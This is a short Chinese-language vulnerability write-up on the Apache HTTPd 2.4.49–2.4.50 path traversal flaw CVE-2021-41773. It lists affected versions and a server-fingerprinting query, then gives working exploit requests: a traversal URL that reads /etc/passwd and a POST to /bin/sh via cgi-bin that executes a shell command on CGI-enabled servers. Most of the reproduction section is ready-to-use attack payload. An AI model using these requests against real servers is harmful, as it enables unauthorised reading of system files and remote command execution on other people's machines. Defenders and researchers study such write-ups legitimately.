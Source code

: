 # Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](./images/202205251554093.png)

验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220525155515446](./images/202205251555506.png)

开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```